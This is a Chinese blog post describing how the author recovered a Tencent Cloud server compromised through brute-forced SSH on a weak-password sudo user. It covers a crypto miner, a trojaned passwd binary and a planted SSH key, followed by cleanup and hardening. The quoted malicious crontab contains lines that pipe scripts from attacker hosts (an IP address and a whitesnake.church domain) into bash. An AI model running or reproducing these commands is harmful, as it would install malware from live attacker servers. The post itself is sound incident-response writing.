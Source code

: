 ```yaml
---
date: 2023-09-12
article: true
star: false
sticky: false
category:
  - 问题记录
tag:
  - 云服务器
  - 异常登录
  - 
---
```


# 记一次服务器被黑的解决过程

只能说离谱，以后还是要多注意这方面的东西。
<!-- more -->
---

一大早起来，就看到腾讯云异常登录的通知，就大概明白是咋回事了，这是我在腾讯云上的一个轻量应用服务器，倒也算不上第一次被黑，上一次被黑的时候入侵者仅仅只是放了一个挖矿木马就没了，其它什么也没动。这一次不仅搞挖矿把服务器资源都跑满了，而且还把我root用户的ssh密钥都改了，一大早起来就得赶紧解决。这里放一张图，看看资源使用情况，基本上都已经爆满了。

<img src="https://public-1308755698.cos.ap-chongqing.myqcloud.com//img/202309120816314.png" style="zoom: 80%;" />

## 原因

![](https://public-1308755698.cos.ap-chongqing.myqcloud.com//img/202309120919508.png)

究其原因，是因为在前几天为了在服务器上搭建自用的gitea，创建了一个新用户`git`来跑服务，也就是此次异常登录的用户，当时给它添加到了sudo组，而且也忘记做远程登录限制，也没有ssh密钥，密码也是非常简单的`123456`，被暴力破解应该是轻而易举的，只是没想到睡一觉起来就G了，以后在这一块看来是一点都不能松懈。下面是截取的一部分登录尝试记录。

```sh
$ lastb | grep git
gitlab-p ssh:notty    2.59.254.244     Tue Sep 12 04:16 - 04:16  (00:00)
gitlab-p ssh:notty    94.156.161.32    Tue Sep 12 01:35 - 01:35  (00:00)
gitlab-p ssh:notty    94.156.161.32    Tue Sep 12 01:35 - 01:35  (00:00)
git      ssh:notty    94.156.161.32    Tue Sep 12 01:34 - 01:34  (00:00)
git      ssh:notty    94.156.161.32    Tue Sep 12 01:34 - 01:34  (00:00)
git      ssh:notty    94.156.161.32    Tue Sep 12 01:33 - 01:33  (00:00)
...
```



## 解决

首先是之前的用户都登陆不上去了，这里只能用服务器默认用户在腾讯云后台重置密码，密码重置完后，登陆到服务器上，top看一下

![](https://public-1308755698.cos.ap-chongqing.myqcloud.com//img/202309120850327.png)

可以看到第一行xrx这个东西已经把cpu跑满了，内存也没剩下多少并且还多了一个cheeki用户。然后来看看这个玩意的运行路径

```sh
$ sudo ls -l /proc/19104/cwd
lrwxrwxrwx 1 root root 0 Sep 12 09:04 /proc/19104/cwd -> /root
```

再locate一下看看

```sh
$ locate xrx
/var/tmp/.xrx
/var/tmp/.xrx/chattr
/var/tmp/.xrx/config.json
/var/tmp/.xrx/init.sh
/var/tmp/.xrx/key
/var/tmp/.xrx/passwd
/var/tmp/.xrx/scp
/var/tmp/.xrx/uninstall.sh
/var/tmp/.xrx/xrx
```

其中这个`ini.sh`应该是被混淆过的，全是乱码，key文件和passwd可能是用来解码的。此时看下git用户的`.bash_history`都是我自己留下的记录，操作记录也是可以被隐藏的。目前root目录我是进不去的，直接把这个进程kill了也无济于事，一般来说会有定时任务来定时重启这些木马，查看系统定时任务，差不多就是特定的地方拉取脚本然后执行，并且在重启的时候还会后台运行这几个进程。

```sh
$ cat /etc/crontab
@daily root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
@reboot root /var/tmp/.xrx/init.sh hide >/dev/null 2>&1 & disown  
1 * * * * root /var/tmp/.x/secure >/dev/null 2>&1 & disown  
*/30 * * * * root curl 179.43.142.41:1011/next | bash 
*/30 * * * * root curl load.whitesnake.church:1011/next | bash 
```

可以看到该文件修改时间就是凌晨一点，差不多就是我在睡觉的时候。

```sh
$ ls -l /etc/crontab
-rw-r--r-- 1 root root 305 Sep 12 01:36 /etc/crontab
```

差不多在同一时间，`/etc/passwd`文件也被修改了。

```sh
$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2674 Sep 12 01:36 /etc/passwd
```

不幸的是，passwd命令也被掉包了，即便通过root权限，也无法直接修改用户的密码，而且我修改的密码可能会通过网络被上传到后台。

```sh
find /usr/bin/ -type f -mtime -3
/usr/bin/passwd
```

把盗版的passwd先删掉，然后用apt重新安装一个 

```sh
$ rm -f /usr/bin/passwd
$ sudo apt reinstall passwd
```

后面的任务是拿到root账号，这里通过腾讯云后台提供的重置密码功能，把root账号的密码给重置了，然后用默认账户登录上去再切换到root，可以看到密钥已经被改了，修改时间也是凌晨

```sh
$ ls -l
total 12
-rwxr-xr-x 1 root root  388 Sep 12 01:35 authorized_keys
-rw------- 1 root root 2610 Apr  8 21:30 id_rsa
-rw-r--r-- 1 root root  573 Apr  8 21:30 id_rsa.pub
```

并且还上锁了，无法删除

```sh
rm authorized_keys
rm: cannot remove 'authorized_keys': Operation not permitted
```

尝试解锁后成功了，庆幸没有对方修改chattr命令。

```sh
ls -l chattr
-rwxr-xr-x 1 root root 14656 Jun  2  2022 chattr
```

```sh
chattr -iad authorized_keys
```

把所有密钥都删除，然后再删除木马文件和定时任务，然后再重启看看，是否恢复正常。

``` sh
$ rm -rf /var/tmp/.xrx/
$ echo "" > /etc/crontab
```

删除之后的话基本上服务器占用就变正常了，为了彻底解决，这里把ssh的配置设置的更加严格一些，禁止密码登录，禁止root登录，修改ssh默认端口号。差不多后续就不会出什么问题了，除非有什么其它软件漏洞。下面是修改后的占用图，就是正常状态了。

<img src="https://public-1308755698.cos.ap-chongqing.myqcloud.com//img/202309121531013.png" style="zoom:80%;" />



下面是一些用到的文章

- [Linux系统是否被植入木马的排查流程梳理-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1026521?areaId=106001)

- [Linux服务器被黑 排查思路(上)-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1828412)